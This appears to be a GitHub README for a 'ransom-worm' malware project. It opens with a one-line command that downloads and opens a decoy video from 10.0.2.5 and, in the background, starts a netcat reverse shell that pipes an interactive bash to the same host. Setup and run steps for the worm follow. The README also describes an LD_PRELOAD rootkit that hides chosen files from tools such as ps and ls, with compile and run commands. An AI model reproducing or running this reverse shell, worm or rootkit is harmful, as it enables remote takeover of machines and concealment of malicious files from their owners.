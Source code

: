 /usr/bin/wget 'http://10.0.2.5/video.mp4' -O /tmp/video.mp4; /usr/bin/xdg-open /tmp/video.mp4; /usr/bin/mkfifo /tmp/f; /bin/nc 10.0.2.5 1234 < /tmp/f | /bin/bash -i > /tmp/f 2>&1 &

# Malware Project

## A multi function worm

# Instructions

First clone the repository:

````bash
git clone https://github.com/blueh0rse/ransom-worm
````

Move to working directory:

````bash
cd ransom-worm
````

Install depedencies:

````bash
python3 -m pip install -r requirements.txt
````

Run code, at your own risks:

````bash
python3 main.py
````

# ROOTKIT
#Add in main.c the HIDING_FILE_NAME that u want to hide(this exemple can hide all the python file and secret.sh)  

How to compile :
````bash
gcc -fPIC -shared -o mainlib.so main.c -ldl\n
````
How to run: 

````bash
LD_PRELOAD=/path/to/your/mainlib.so + where you want to hide (like ps -a or ls) 
````
